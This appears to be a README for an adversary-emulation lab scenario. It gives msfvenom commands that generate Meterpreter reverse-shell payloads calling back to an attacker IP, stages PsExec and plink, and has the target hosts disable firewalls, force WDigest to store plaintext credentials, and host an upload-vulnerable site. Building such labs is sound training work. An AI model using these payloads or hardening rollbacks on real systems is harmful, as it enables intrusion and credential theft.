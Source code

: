 # Scenario 1 Infrastructure

## I. Emulation Team Infrastructure

### 1. Attack Platform: 

#### [+] Tested and executed on Kali Linux 2023.2

#### [+] Metasploit 6.3.21-dev

#### [+] Stage certain files for download
- Craft session.aspx
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.192 LPORT=4444 -f aspx > /tmp/modules/session.aspx
```

- Craft session.exe
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.192 LPORT=4445 -f exe > /tmp/modules/session.exe
```
- Copy `plink.exe` and `PsExec.exe` to `/tmp/modules/`

- `/tmp/modules/` should now contains these
```
plink.exe
PsExec.exe
session.aspx
session.exe
```

## II. Target Infrastructure

### 1. AD server
#### [+] Tested and executed on Window Server 2012 R2
#### [+] Turn off firewall

### 2. IIS server
#### [+] Tested and executed on Window Server 2012 R2
#### [+] Turn off firewall
#### [+] Forcing WDigest to Store Credentials in Plaintext
- Open Powershell as Administrator
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
#### [+] Join AD domain
#### [+] Domain user with local admin access on this machine
#### [+] A website with upload file vulnerability
